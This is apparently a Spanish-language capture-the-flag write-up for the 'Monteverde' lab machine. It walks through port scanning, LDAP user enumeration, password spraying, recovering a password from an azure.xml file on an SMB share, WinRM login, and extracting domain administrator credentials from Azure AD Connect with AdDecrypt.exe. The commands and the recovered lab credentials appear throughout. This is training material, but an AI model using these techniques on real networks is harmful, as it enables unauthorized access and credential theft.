









Monteverde es una máquina Windows Media que cuenta con Azure AD Connect. Se enumera el dominio y se crea una lista de usuarios. A través de password spraying, se encuentra la cuenta de servicio `SABatchJobs` que tiene el nombre de usuario como contraseña. Usando esta cuenta de servicio, es posible enumerar los recursos compartidos SMB en el sistema, y se encuentra que el recurso compartido `$users` es legible por todo el mundo y en el cual encontraremos un archivo XML utilizado para una cuenta Azure AD se encuentra dentro de una carpeta de usuario y contiene una contraseña. Debido a la reutilización de la contraseña, podemos conectarnos al controlador de dominio como `mhope` utilizando WinRM. La enumeración muestra que `Azure AD Connect` está instalado. Es posible extraer las credenciales de la cuenta que replica los cambios de directorio a Azure (en este caso el administrador de dominio por defecto).


# Enumeración

Iniciamos enumerando  los puertos que se encuentra abiertos en la maquina victima, esto con la herramienta de `nmap` 

```python
❯ nmap -p- --open --min-rate 5000 -vvv -Pn -n 10.10.10.172 -oG allportsScan

PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
49667/tcp open  unknown          syn-ack
49673/tcp open  unknown          syn-ack
49674/tcp open  unknown          syn-ack
49675/tcp open  unknown          syn-ack
49740/tcp open  unknown          syn-ack
49899/tcp open  unknown          syn-ack

```

- `-p-`: especifica que se escaneen todos los puertos (desde el puerto 1 hasta el puerto 65535).
- `--open`: muestra solo los puertos que están abiertos.
- `--min-rate 5000`: establece la tasa mínima de paquetes por segundo en 5000. Esto puede acelerar el escaneo, enviando más paquetes por segundo, aunque también puede aumentar la posibilidad de ser detectado por sistemas de prevención de intrusiones (IPS).
- `-vvv`: establece un nivel de verbosidad muy alto, mostrando una salida muy detallada del escaneo.
- `-Pn`: ignora el descubrimiento de hosts y asume que el objetivo está activo.
- `-n`: evita la resolución DNS inversa para las direcciones IP.
- `10.10.10.172`: es la dirección IP del host que se va a escanear.
- `-oG allportsScan`: genera un archivo de salida en formato "greppable" llamado "allportsScan".

Luego de obtener los puertos abiertos lo que haremos será enumerar los servicios y las versiones de estas en cada uno de los puertos.

```python
❯ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49675,49740,49899 -sC -sV -vvv -Pn -n 10.10.10.172 -oN servicesScan

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-03-29 05:57:49Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49673/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         syn-ack Microsoft Windows RPC
49675/tcp open  msrpc         syn-ack Microsoft Windows RPC
49740/tcp open  msrpc         syn-ack Microsoft Windows RPC
49899/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 2859/tcp): CLEAN (Timeout)
|   Check 2 (port 32303/tcp): CLEAN (Timeout)
|   Check 3 (port 47166/udp): CLEAN (Timeout)
|   Check 4 (port 42344/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: -4s
| smb2-time: 
|   date: 2024-03-29T05:58:43
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

```

- `-p`: especifica los puertos a escanear. En este caso, se están escaneando los puertos 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5985, 9389, 49667, 49673, 49674, 49675, 49740 y 49899.
- `-sC`: activa la opción de enumeración de scripts predeterminados de Nmap. Esto permite ejecutar una serie de scripts diseñados para detectar vulnerabilidades o características específicas de los servicios.
- `-sV`: realiza una detección de la versión de los servicios que se encuentran en los puertos especificados.
- `-vvv`: establece un nivel de verbosidad muy alto, mostrando una salida muy detallada del escaneo.
- `-Pn`: ignora el descubrimiento de hosts y asume que el objetivo está activo.
- `-n`: evita la resolución DNS inversa para las direcciones IP.
- `10.10.10.172`: es la dirección IP del host que se va a escanear.
- `-oN servicesScan`: genera un archivo de salida en formato normal con el nombre "servicesScan".

## Enumeración de usuarios

Enumerando por el servicio `ldap` encontraremos algunos usuarios:

```python
❯  ldapsearch -x -b 'dc=megabank,dc=local' 'objectclass=user' 'userPrincipalName' -H ldap://10.10.10.172
```

Para solo obtener los usuarios dentro del servicio de `ldap` realizaremos un filtro:

```python
❯ ldapsearch -x -b 'dc=megabank,dc=local' 'objectclass=user' 'userPrincipalName' -H ldap://10.10.10.172| grep userPrincipalName| awk '{print $2}'| awk -F '@' '{print $1}'
```

Luego obtendremos  los siguientes usuarios:

```python
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```
# Explotación 

Con la herramienta `netexec` intentaremos las credenciales con los usuarios que encontramos

```python
❯ netexec smb 10.10.10.172 -u user.txt  -p user.txt
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:SABatchJobs STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 

```

Podemos ver que el usuario `SABatchJobs` hace uso de su mismo usuario como contraseña en el servicio `smb`
## Usuario : SABatchJobs

Haciendo uso de las credenciales que validamos con `netexec` enumeraremos los recursos compartidos a la que tenemos acceso

```python
❯ smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs
```



Vemos que tenemos acceso a algunos recursos, los cuales revisaremos el contenido de estos.

```python
❯ smbclient \\\\10.10.10.172\\users$ -U SABatchJobs
```



En el archivo `azure.xml` encontraremos unas credenciales 

```python
❯ cat azure.xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>                                                                                                                                                                                           
```

Haciendo uso de `netexec` intentaremos hacer `brute force` para encotrar un usuario valido contra el servicio `winrm`

```python
❯ netexec winrm 10.10.10.172 -u user.txt -p '4n0therD4y@n0th3r$'
```



Obtenemos un usuario valido que es `mhope`

```python
mhope : 4n0therD4y@n0th3r$ 
```

## Usuario : mhope 

Luego de tener las credenciales validas podremos acceder por el servicio `winrm` con la herramienta `evil-winrm`



Vemos que tenemos un directorio `.Azure`. Luego de investigar un poco vemos que `azure` puede almacenar credenciales. Puedes revisar el siguiente post para tener mas información:

- [https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/)
- [https://github.com/VbScrub/AdSyncDecrypt/releases](https://github.com/VbScrub/AdSyncDecrypt/releases)

Luego subiremos los binarios que necesitaremos para obtener las credenciales que están almacenadas

```python
*Evil-WinRM* PS C:\users\mhope\files> upload AdDecrypt.exe
*Evil-WinRM* PS C:\users\mhope\files> upload mcrypt.dll
```



El recurso nos indica que debemos de ejecutarlo en una ruta en especifico que es `C:\Program Files\Microsoft Azure AD Sync\Bin`



Luego de estar en el directorio, podremos ejecutar `AdDecrypt.exe -FullSQL` y así obtener las credenciales almacenadas.

```python
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> c:\users\mhope\files\AdDecrypt.exe -FullSQL
```



Podemos ver algunas credenciales que son del usuario `administrator`

```python
DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

## Usuario : administrator

Luego de obtener las credenciales debemos de validar con la herramienta `netexec`

```python
❯ netexec smb 10.10.10.172 -u administrator  -p d0m@in4dminyeah!

❯ netexec winrm 10.10.10.172 -u administrator  -p d0m@in4dminyeah!
```



Luego de verificar que son validas, podemos autenticarnos e ingresar como el usuario `administrator`

```python
❯ evil-winrm -i 10.10.10.172 -u administrator  -p d0m@in4dminyeah!
```



